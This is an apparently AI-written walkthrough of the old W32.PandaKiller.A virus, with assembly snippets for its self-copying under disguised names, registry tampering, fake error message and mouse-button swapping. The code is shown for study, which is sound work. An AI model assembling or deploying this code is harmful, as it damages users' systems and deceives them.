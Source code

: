 
Here’s a structured analysis of the **W32.PandaKiller.A** malware, with explanations illustrated by snippets of the original assembly code.

----------

## **1. Directory Creation**

The malware creates two directories:

-   `C:\PandaKiller`
-   `%windir%\Panda`

This is done using the `CreateDirectoryA` function:

```assembly
push 00000000h
push offset rep1
call CreateDirectoryA           ; Creates C:\PandaKiller

push 260
push offset targ1
call GetWindowsDirectoryA
push offset rep2
push offset targ1
call lstrcat
push offset targ1
call CreateDirectoryA           ; Creates %windir%\Panda
```

----------

## **2. Self-Copying Mechanism**

The malware copies itself to multiple locations:

-   `%windir%\PandaKiller.exe`
-   `%system%\Monopoly.exe`
-   `%windir%\Panda\Stages.exe`

This is achieved using `CopyFileA`:

```assembly
push 00000000h
call GetModuleHandleA
push 260
push offset moi
push eax
call GetModuleFileNameA         ; Get the current executable's path

push 260
push offset targ1
call GetWindowsDirectoryA
push offset copie1
push offset targ1
call lstrcat
push 00000000h
push offset targ1
push offset moi
call CopyFileA                  ; Copy to %windir%\PandaKiller.exe
```

----------

## **3. Creating a Text File with a Message**

The malware creates a file `C:\PandaKiller\EMail.txt` and writes a message inside:

```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset fichier
call CreateFileA                ; Create the file C:\PandaKiller\EMail.txt

mov  [fh],eax
push 00h
push offset octets
push taille
push offset TXT
push [fh]
call WriteFile                  ; Write content to the file

push [fh]
call CloseHandle                ; Close the file
```

The content written to the file:

```assembly
		TXT     db "[PandaKiller]",0dh,0ah
        db "Contact: Panda34@caramail.com",0dh,0ah
        db "W32.PandaKiller.A by PandaKiller (c)2000",00h
```

----------

## **4. Registry Modification**

The malware modifies the Windows registry to change the **Registered Owner** to `"PandaKiller"`.

```assembly
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE
push 80000002h                  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE              ; "PandaKiller"
push 01h
push 0
push offset NOM                 ; RegisteredOwner
push p
call RegSetValueExA             ; Set registry value

push 0
call RegCloseKey                ; Close registry
```
----------

## **5. Displaying a Fake Error Message**

The malware displays a fake error message to deceive the user.

```assembly
push 35h
push offset TITRE
push offset TEXTE
push 00h
call MessageBoxA
```

```assembly
TITRE   db "By PandaKiller on 12/10/00",00h
TEXTE   db "****************************",10,13
        db "This file is not valid!",10,13
        db "****************************",00h` 
```
----------

## **6. Swapping Mouse Buttons**

If the user clicks "Retry," the malware swaps the mouse buttons using `SwapMouseButton`, reversing left and right clicks.

```assembly
SOURIS: push 01h
        call SwapMouseButton
```

----------

## **7. Execution Termination**

Finally, the malware ends execution using `ExitProcess`.

```assembly
		FIN:
        push 0
        call ExitProcess` 
```
----------

This structured analysis illustrates how **W32.PandaKiller.A** operates, showing its **directory creation, self-copying, registry modification, deceptive messages, and user interaction interference**. Let me know if you need further clarifications! 🚀
